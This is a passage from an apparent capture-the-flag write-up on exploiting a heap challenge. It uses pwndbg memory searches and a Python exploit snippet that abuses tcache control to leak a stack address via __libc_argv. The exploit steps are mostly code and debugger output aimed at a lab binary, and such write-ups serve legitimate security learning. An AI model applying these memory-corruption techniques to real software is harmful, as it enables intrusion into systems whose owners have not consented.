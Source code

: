 

At this point, the player can control the `malloc indexer`, `malloc counter`, the `heap management chunk`, the `t-cache` pointers and has every leak needed except for a `stack` leak.



###### Last leak, I promise (getting `stack leak`)

Using same trick as when getting a `PIE` leak, pointers to the stack can be found with `gdb`:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x56337a87a000     0x56337a87b000 r--p     1000      0 /chal/garbage-is-easy/chal
[...]
    0x7ffdc2038000     0x7ffdc2059000 rw-p    21000      0 [stack]
[...]
pwndbg> search -4 0x7ffdc203
Searching for value: b'\x03\xc2\xfd\x7f'
pwndbg> search -4 0x7ffdc204
Searching for value: b'\x04\xc2\xfd\x7f'
pwndbg> search -4 0x7ffdc205
Searching for value: b'\x05\xc2\xfd\x7f'
[anon_7effcb454] 0x7effcb454a3a 0x75c000007ffdc205
[anon_7effcb454] 0x7effcb454a42 0x7ffdc205
[anon_7effcb454] 0x7effcb454dda 0x7ffdc205
libc.so.6       0x7effcb624512 0x855500007ffdc205
libc.so.6       0x7effcb62451a 0x7ffdc205
libc.so.6       0x7effcb624a02 0x100007ffdc205
[anon_7effcb625] 0x7effcb62b322 0x7ffdc205
ld.so           0x7effcb666ab2 0x7ffdc205
ld.so           0x7effcb666ada 0x100007ffdc205
ld.so           0x7effcb666b6a 0x100007ffdc205
ld.so           0x7effcb6682f2 0x7ffdc205
[stack]         0x7ffdc2054dd2 0x76a800007ffdc205
[...]
[stack]         0x7ffdc2057922 0x7ffdc205
```

Once again the player may choose whichever pointer they like (although it has to be `r/w` as `t-cache` will write some `meta-data` when `allocating` the `chunk`).



Getting a `stack leak` can be achieved like the following:

```python
# Getting a stack leak
edit(3, p64(0x5))								# Set malloc counter to 5 (only entries we need)

edit(1, p64(elf.symbols['garbage_truck']+32))	# Set entry 0 to point to entry 5 (which will be used as a pointer to __libc_argc)
edit(0, p64(libc.symbols['__libc_argv']))		# Actual pointer to __libc_argv

sp = int(see(4)[::-1].hex(), 16) - 296			# Parse the leak and subtract correct values to get desired address
info("Stack pointer: %s" % hex(sp))
```
